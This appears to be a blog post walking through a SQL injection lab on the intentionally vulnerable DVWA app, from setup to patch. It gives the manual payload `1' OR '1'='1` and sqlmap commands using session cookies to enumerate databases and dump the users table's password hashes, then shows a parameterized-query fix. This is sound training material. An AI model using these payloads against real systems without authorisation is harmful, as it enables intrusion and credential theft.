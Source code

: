 ```yaml
---
layout: single
title: "Hands‑On SQL Injection Lab: DVWA from Exploit to Patch"
date: 2025-07-29
categories: [pentesting, web-security, sql-injection]
tags: [DVWA, SQLi, penetration-testing, cyber-security, git]
author: John Seanson
excerpt: "A complete walkthrough of exploiting and patching SQL Injection in DVWA, with manual and automated attack, troubleshooting, and secure coding."
minimal_mistakes_skin: dark
author_profile: true
read_time: true
comments: true
share: true
related: true
---
```


In this lab, we’ll walk through a complete **SQL Injection** lifecycle using the Damn Vulnerable Web Application (DVWA). You’ll learn how to:

1. **Set up** a two‑VM environment: Kali Linux (attacker) & Ubuntu + DVWA (target)  
2. **Manually exploit** the SQLi vulnerability  
3. **Automate** the attack with `sqlmap`  
4. **Troubleshoot** sessions, redirects, and cookie issues  
5. **Patch** the vulnerability and **verify** the fix

## TL;DR

- **Setup**: Two‑VM lab with Kali Linux (attacker) and Ubuntu + DVWA (target)  
- **Manual Exploit**: Used `1' OR '1'='1` in DVWA’s SQLi page to retrieve user records  
- **Automation**: Leveraged `sqlmap` with valid `PHPSESSID` and `security=low` cookies to dump the `dvwa.users` table  
- **Troubleshooting**: Resolved 302 redirects, cookie formatting, URL quoting, and cache issues (`--flush-session`)  
- **Patch**: Switched DVWA to “High” security—uses PDO parameterized queries—and confirmed injection is blocked  
- **Key Lesson**: Always use parameterized queries to prevent SQL Injection; hands‑on debugging is as important as the exploit.  

---

## 🛠 Environment Setup

1. **Ubuntu Server** VM (DVWA target)  
   - Install Apache, PHP, MySQL:  
     ```bash
     sudo apt update
     sudo apt install -y apache2 php libapache2-mod-php php-mysql mysql-server
     ```
   - Clone DVWA and configure database:  
     ```bash
     cd /var/www/html
     sudo git clone https://github.com/digininja/DVWA.git
     cd DVWA/config
     sudo cp config.inc.php.dist config.inc.php
     ```
   - Edit `config.inc.php`:
     ```php
     $_DVWA['db_user']                 = 'dvwauser';
     $_DVWA['db_password']             = 'password';
     $_DVWA['enable_phpids']           = false;
     $_DVWA['disable_authentication_tokens'] = true;
     ```
   - Create database & user in MySQL:
     ```sql
     CREATE DATABASE dvwa;
     CREATE USER 'dvwauser'@'localhost' IDENTIFIED BY 'password';
     GRANT ALL ON dvwa.* TO 'dvwauser'@'localhost';
     FLUSH PRIVILEGES;
     ```
   - Restart Apache and complete setup at `http://<IP>/DVWA/setup.php`.

   ![DVWA Setup Success](/assets/dvwa-setup.png)
   Ensure you follow DVWA set-up carefully as a misconfigured file gave me quite the headache!

2. **Kali Linux** VM (Attacker)  
   - Install tools:
     ```bash
     sudo apt update
     sudo apt install -y sqlmap curl
     ```
   - Ensure you can browse to DVWA (`admin`/`password`) and set security **Low**.

---

## 🔍 Phase 1: Manual SQL Injection

Navigate to:

```
http://<IP>/DVWA/vulnerabilities/sqli/
```

Enter in **ID** field:
```
1' OR '1'='1
```
Submit and observe multiple user records returned—proof of SQLi.

![](/assets/manual-sqli.png)

---

## 🤖 Phase 2: Automating with sqlmap

1. **Grab your session cookie** from the Kali browser (`PHPSESSID`, `security=low`).  
2. **Verify** access to the injection point:
   ```bash
   curl -IL --cookie "PHPSESSID=<ID>; security=low" \
       "http://<IP>/DVWA/vulnerabilities/sqli/?id=1"
   # Expect HTTP/1.1 200 OK
   ```

3. **Enumerate databases**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     --dbs --batch --flush-session
   ```
4. **Dump `users` table**:
   ```bash
   sqlmap -u "http://<IP>/DVWA/vulnerabilities/sqli/?id=1" \
     --cookie="PHPSESSID=<ID>; security=low" \
     -D dvwa -T users --dump --batch --flush-session
   ```

   You’ll retrieve `user_id`, `user`, and MD5 `password` hashes.

![](/assets/sqlmap-dump.png)

---

## 🔧 Troubleshooting Highlights

* **302 Redirects**: Ensure you log in from **Kali VM**, not host.
* **Cookie Errors**: Use correct format:
  ```
  --cookie="PHPSESSID=<ID>; security=low"
  ```
* **Malformed URL**: Wrap URL in quotes, include `?id=1`.
* **Cache Issues**: Use `--flush-session` to clear sqlmap cache.

---

## 🛡 Phase 3: Patching & Verification

1. In DVWA **Security** menu, set to **High** → Submit.
2. Review `high.php`—it uses PDO parameterized queries:
   ```php
   $stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
   $stmt->bindParam(':id', $_GET['id'], PDO::PARAM_INT);
   $stmt->execute();
   ```
3. **Retest**:
   * Manual payload `1' OR '1'='1` → **no data**
   * `sqlmap --dbs` → **no injectable parameters**

![](/assets/patch-verified.png)

---

## 🎓 Key Takeaways

* **SQL Injection** exploits unvalidated input—classic payload `1' OR '1'='1`.
* Tools like **sqlmap** automate enumeration but require proper cookies & session context.
* **Prepared statements** are the gold‑standard defense against SQLi.
* Hands‑on troubleshooting is as critical as the exploit itself.

---

## 📂 Resources

* **GitHub Repo:** [JohnSeanson/sql-injection-dvwa-lab](https://github.com/JohnSeanson/sql-injection-dvwa-lab)
* **Live Report:** [johnseanson.github.io](https://johnseanson.github.io)
* **DVWA:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
* **sqlmap:** [https://github.com/sqlmapproject/sqlmap](https://github.com/sqlmapproject/sqlmap)

---

*Ready to try it yourself? Fork the repo, spin up your VMs, and share your results! Happy hacking and stay secure.*
